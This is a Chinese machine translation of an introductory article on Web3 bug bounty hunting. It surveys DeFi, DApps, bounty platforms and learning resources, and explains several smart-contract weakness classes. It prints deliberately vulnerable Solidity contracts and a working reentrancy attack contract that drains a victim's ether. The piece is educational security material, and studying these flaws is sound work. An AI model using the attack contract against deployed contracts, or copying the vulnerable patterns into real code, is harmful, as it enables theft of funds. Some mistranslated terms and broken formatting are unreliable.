

# 黑客网站 3:介绍和如何开始

> 原文：<https://infosecwriteups.com/hacking-web3-introduction-and-how-to-start-88ae2c51f3ec?source=collection_archive---------0----------------------->



Web3 是一项新技术，我们希望它比 web2 安全得多。事实上，web3 是我们旧的万维网的一个新版本，但是这一次是分散的并且基于区块链。Web3 支持区块链、加密货币和 NFTs。因为 Web3 是一项新技术，公司没有为新的风险和安全问题做好准备，赢家是能够预测和预防所有可能的安全问题的人。由于 web3 应用程序每天都有数百万美元的风险，今天，一些 Web3 公司已经注册了一个 bug 赏金计划，并向白帽黑客支付费用来保护他们的业务。

# 概念:

## 分散融资(DeFi):

DeFi 提供金融工具，不依赖中介机构，如经纪公司或银行。这些应用程序允许用户进行储蓄、借贷和交易，而不收取任何费用(银行等任何金融公司都会收取)。此外，这些应用程序非常快，任何人都可以使用它们，无需任何批准。这意味着任何地方的任何人都可以通过互联网接入这些金融服务。DeFi 应用程序使用区块链，名为 DApps 的应用程序管理和处理事务。

## 分散应用(DApp):

分散式应用程序是分散式网络上的应用程序，它提供前端用户界面，并结合了由以太坊开发和支持的智能契约。集中式应用程序使用单台计算机，但 DApps 在计算机的对等网络上运行，并使用区块链进行数据存储。在以太坊上，智能合约是开源透明的。

## Web3 Bug 赏金:

Web3 bug bounty 几乎是一个新的话题，没有太多的平台。但在 2017 年，一家名为 [**Hacken**](http://hacken.io) 的新网络安全咨询公司开始为区块链安全部门提供网络安全服务。[**Hacken proof**](https://hackenproof.com/)**是哈肯集团的一部分。还有，[**Immunefi**](https://immunefi.com/)**是一个不错的 web3 bug 赏金平台，成立于 2020 年。Immunefi 为白人黑客提供了最大的奖金，例如，Immunefi 中的单个程序(虫洞)为关键的智能合约漏洞提供了**10，000，000 美元**。****

# ****基础:****

****在所有学科中，你需要强大的基础才能成为专家。例如，在一场汽车比赛中，想象你有一辆好车。尽管如此，你不太了解这条路或你的车的可能性，在平行车道上，你的朋友有一辆普通的车，但他很清楚路线，也知道他可以做些什么来通过使用他的车的能力更快更容易地通过这条路。猜猜谁赢了？是的，你的朋友。这意味着一个专业的 Solidity 开发人员知道关键功能在哪里实现了，合同开发人员可能在哪里出错，但是一个不了解智能合同开发的黑客怎么会想黑一个智能合同呢？
这就是为什么我强烈建议您学习更多关于区块链的原理、以太坊如何工作以及如何开发智能合同的知识。
首先，你需要知道区块链是什么，它是如何工作的，[区块链理论 101](https://www.udemy.com/course/blockchain-theory-101/) Udemy 课程和[Elad El rom 的区块链开发者](https://www.amazon.com/Blockchain-Developer-Implementing-Distributed-Blockchain-based/dp/1484248465)是区块链基础知识的良好资源。因为所有的智能合约和以太坊账户都存在于以太坊虚拟机中，所以你应该知道这一点。Andreas Antonopoulos 的《掌握以太坊》是一本关于以太坊如何运作的书。****

****编程是你应该学习的另一件重要的事情。众所周知，所有以太坊去中心化应用(DApps)都有一个智能契约(通常由 Solidity 编写)和一个前端用户界面。你使用的智能合约可能是你或其他人写的，因为之前提到过以太坊的每个智能合约都是开源的。****

****透明性和可访问性是 DeFi 的良好特性，在 Web 2.0 中，一个小型开发团队编写代码，其他人看不到程序代码，但在 Web3 中，应用程序是在所有人的眼皮底下开发的。****

****最流行的智能合同语言是可靠性。这种语言是一种面向对象的高级语言，用于实现智能合约。如果你已经知道一门编程语言，学习扎实对你来说是非常容易的，“[扎实举例](https://solidity-by-example.org/)”是学习扎实的更好资源。另一种编写智能合同的流行语言是 JavaScript。这种流行的语言在客户端和服务器端都能工作。《JavaScript:权威指南》这本书是学习 JavaScript 的最佳途径。JavaScript 最流行的 web3 库是`web3.js`和`ethers.js`。
除了这两种语言，Viper 和 Rust 也是智能合约的好语言。****

# ****Web3 中的漏洞:****

****Web3 的 bug 不像 web2 的 bug，有很多区别。
你可以在 web3 应用中找到 web2 的 bug，而不是在智能合约中。在 web2 中，我们使用 CWE 对漏洞进行分类，但是在智能合约中，我们使用**智能合约弱点分类** (SWC)对问题进行分类。你可以在 [SWC 注册中心](https://swcregistry.io/)找到智能合约弱点的完整列表。****

****在本文中，您将熟悉一些最流行的 web3 漏洞。****

## ****功能默认可见性(SWC-100)****

****当开发人员忘记为函数设置适当的可见性，并且恶意用户(黑客)可以进行未经授权或意外的状态更改时，就会出现此问题。****

```
**pragma solidity ^0.4.24;
**contract** **FunctionDefaultVisibility** {
   **function** **withdrawWinnings**() {
     **require**(**uint32**(msg.sender) == 0);
     _sendWinnings();
   }
   **function** **_sendWinnings**() {
     msg.sender.transfer(this.balance);
   }
}**
```

****如您所见，没有设置任何函数可见性(私有、公共、内部……)。****

## ****无保护以太坊提款(SWC-105)****

****由于访问控制缺失或不足，恶意方可以从合同中撤销所有醚。这个问题有时是由无意中公开 init 函数引起的。由于错误地将一个函数命名为构造函数，构造函数代码以运行时字节代码结束，任何人都可以调用它来重新初始化协定。****

## ****重返(SWC-107)****

****在可重入攻击中，恶意契约(攻击者契约)在函数的第一次调用完成之前回调调用契约。这可能导致函数的不同调用以不期望的方式交互。****

******易受攻击合同的示例:******

```
**contract DepositFunds {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

}**
```

****当用户请求大量乙醚时，该漏洞就会出现。在这种情况下，攻击者调用`withdraw()`函数。他可以转移代币，即使他已经收到代币，因为他的余额还没有设置为 0。****

****攻击者可以创建以下合同并利用可重入性漏洞:****

```
**contract Attack {
    DepositFunds public depositFunds;

    constructor(address _depositFundsAddress) {
        depositFunds = DepositFunds(_depositFundsAddress);
    }

    // Fallback is called when DepositFunds sends Ether to this contract.
    fallback() external payable {
        if (address(depositFunds).balance >= 1 ether) {
            depositFunds.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        depositFunds.deposit{value: 1 ether}();
        depositFunds.withdraw();
    }

}**
```

****阅读更多关于 [**的重入攻击**](https://hackernoon.com/hack-solidity-reentrancy-attack) **。******

## ****可塑性签名(SWC-117)****

****通常，人们假设在以太坊合同中使用加密签名系统来验证签名是唯一的，但是以太坊中的签名可以在不拥有私钥的情况下被更改，并且仍然有效。例如，椭圆密钥加密包含三个变量: *v* 、 *r* 和 *s* ，如果这些值以正确的方式修改，您可以用无效的私钥获得有效的签名。****

## ****写入任意位置(SWC-124)****

****智能合约的数据永久存储在 EVM 级别的某个存储位置。合同负责确保只有授权用户或合同帐户可以写入敏感存储位置。****

****如果攻击者可以写入任意存储位置，授权检查很容易被绕过。它允许攻击者覆盖包含所有者地址的字段。****

```
**pragma solidity ^0.4.25;
contract Wallet {
  uint[] private bonusCodes;
  address private owner; constructor() public {
        bonusCodes = new uint[](0);
        owner = msg.sender;
  } function () public payable {
  } function PushBonusCode(uint c) public {
        bonusCodes.push(c);
  } function PopBonusCode() public {
        require(0 <= bonusCodes.length);
        bonusCodes.length--;
  } function UpdateBonusCodeAt(uint idx, uint c) public {
        require(idx < bonusCodes.length);
        bonusCodes[idx] = c;
  } function Destroy() public {
        require(msg.sender == owner);
        selfdestruct(msg.sender);
  }
}**
```

****正如你所看到的，在**第 4 行**中,`bonusCodes`变量声明在**第 26 行**中我们可以在这个位置写入。****

# ****然后****

****既然你已经对 DeFi、DApp 和 Web3 有了足够的了解，我建议你学习更多关于智能合约的弱点，这会很有帮助。如果你想让一个以太坊虚拟机在上面测试智能合约 bug，CTFs 可以帮上忙。您可以练习所学的课程，并对 Web3 黑客技术更加熟悉。[以太游戏](https://ethernaut.openzeppelin.com)、[夺取以太](https://capturetheether.com)、 [VulnerableDefi](https://damnvulnerabledefi.xyz) 是练习智能合约漏洞最好的 CTF。****

****这些 CTF 的解决方案可以在 [**Hackernoon**](https://hackernoon.com/) 上找到，你可以在那里用 *solidity-hack* 标签找到它们。****

****此外，工具可以帮助你在狩猎过程中，自动化，你可以找到越来越多的错误。最好的 web3 黑客工具有 [Mythril](https://github.com/ConsenSys/mythril) 、 [Surya](https://github.com/ConsenSys/surya) 、 [Seth](https://github.com/dapphub/dapptools/tree/master/src/seth) 和[daptools](https://github.com/dapphub/dapptools)。****

****经过大量的实践和学习，你成为一个熟练的 web3 黑客，然后你可以去 web3 bug bounty 平台，选择一个程序，开始黑客。当然，你在学习的时候可以把这个当做练习，但是当你是专家的时候去现有的平台挣钱也不错。****

# ****结论:****

****没有技术是完美的，安全也从来不是 100%。要破解东西，你只需要开始学习，练习，练习，再练习。****